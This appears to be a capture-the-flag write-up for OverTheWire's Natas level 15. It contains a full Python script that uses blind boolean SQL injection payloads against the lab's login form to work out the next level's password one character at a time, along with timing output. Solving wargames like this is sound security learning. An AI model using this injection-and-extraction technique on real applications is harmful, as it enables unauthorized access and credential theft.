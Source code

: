 The multithreaded script allows the computer to make multiple queries at the same time without having to wait for a response. While the results may be returned out of order, they will be displayed in order.

If you decide to run either script, you'll need to edit the natas15_password variable to include the correct password for the current level. Do not edit the natas16_password variable!


#### Single-threaded 
Script Performance
```
Filtering characters completed in 16.1 seconds
Password search completed in 108.97 seconds

Completed in 125.07 seconds
```

Here's the code:
```python
#!/usr/bin/env python
import time
import string
import requests
from requests.auth import HTTPBasicAuth

start_script = time.perf_counter()
all_chars = list(string.ascii_uppercase + string.ascii_lowercase + string.digits)
natas15_password = "A------------------------------J"  # Password for the current level
natas16_password = ""  # Buffer for the next level password
filtered_chars = ""


def filter_characters(char):
    data = {'username': 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    req = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug',
                        auth=HTTPBasicAuth('natas15', natas15_password), data=data)

    if 'exists' in req.text:
        return char
    else:
        return None


start_filter = time.perf_counter()
for ac in all_chars:
    retval = filter_characters(ac)
    if retval is not None:
        print(retval, end='', flush=True)
        filtered_chars = filtered_chars + ac

end_filter = time.perf_counter()
print(f'\nFiltering characters completed in {round(end_filter - start_filter, 2)} seconds')

start_password = time.perf_counter()
for i in range(0, 32):
    for fc in filtered_chars:
        data = {'username': 'natas16" and password LIKE BINARY "' + natas16_password + fc + '%" #'}
        req = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug',
                            auth=HTTPBasicAuth('natas15', natas15_password), data=data)
        if 'exists' in req.text:
            natas16_password = natas16_password + fc
            print(fc, end='', flush=True)
            break
end_password = time.perf_counter()
print(f'\nPassword search completed in {round(end_password - start_password, 2)} seconds')

```